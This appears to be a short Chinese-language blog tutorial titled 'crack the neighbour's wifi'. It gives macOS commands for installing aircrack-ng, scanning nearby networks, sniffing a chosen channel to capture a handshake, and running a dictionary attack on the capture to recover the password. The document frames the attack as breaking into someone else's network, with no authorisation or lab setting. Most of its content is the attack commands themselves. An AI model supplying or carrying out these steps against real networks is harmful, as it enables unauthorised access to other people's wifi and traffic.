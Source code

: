 ```yaml
---
title: 破解隔壁 wifi
---
```


首先要确保电脑安装 Xcode

```bash
brew install aircrack-ng
brew link aircrack-ng
airport -s #  查看到附近的 Wifi 信息
```

![](https://gitee.com/alvin0216/cdn/raw/master/img/wifi.png)

RSSI 信号，CHANNEL 这是我们用来监听的网卡渠道。

```bash
sudo airport en0 sniff 10 # 10 代表上图的 GL-WIFI
```

![](https://gitee.com/alvin0216/cdn/raw/master/img/wifi2.png)

按`「 control ＋ c 」`退出抓包，会自动保存并提示抓得包保存路径：

新建字段：

```bash
touch pwd.txt # 字典密码表
# 一顿操作
aircrack-ng -w pwd.txt airportSniff8aPHR3.cap # airportSniff8aPHR3.cap 刚刚抓的包
```

当 `GL-WIFI` 有人重新连接后，且进行过网页浏览可以看到抓包信息。

![](https://gitee.com/alvin0216/cdn/raw/master/img/wifi3.png)

输入对应的 wifi 编号，破解密码：

![](https://gitee.com/alvin0216/cdn/raw/master/img/wifi4.png)
